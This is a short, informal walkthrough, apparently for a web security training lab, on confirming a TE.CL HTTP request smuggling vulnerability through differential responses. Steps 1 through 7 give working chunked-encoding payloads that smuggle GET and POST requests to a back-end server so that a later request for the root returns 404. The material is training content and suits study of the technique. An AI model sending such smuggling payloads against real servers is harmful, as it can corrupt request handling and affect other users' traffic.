

# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

---

### step 1

send homepage to repeater
change get request to post request
change HTTP /2 to HTTP/1.1
add SMUGGLED to body send request



### step2

add
Transfer-Encoding: chunked
8
SMUGGLED
0


### step3

increase content-Length to 19 or 20
it will give internal server error


### step4

test payload

```
5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```


```
67
GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```


### step6

change get request to post request

```
68
POST /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```


### step7

test payload to solve lab

```
5d
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```


lab will solved
404
you can also send post request to solve lab


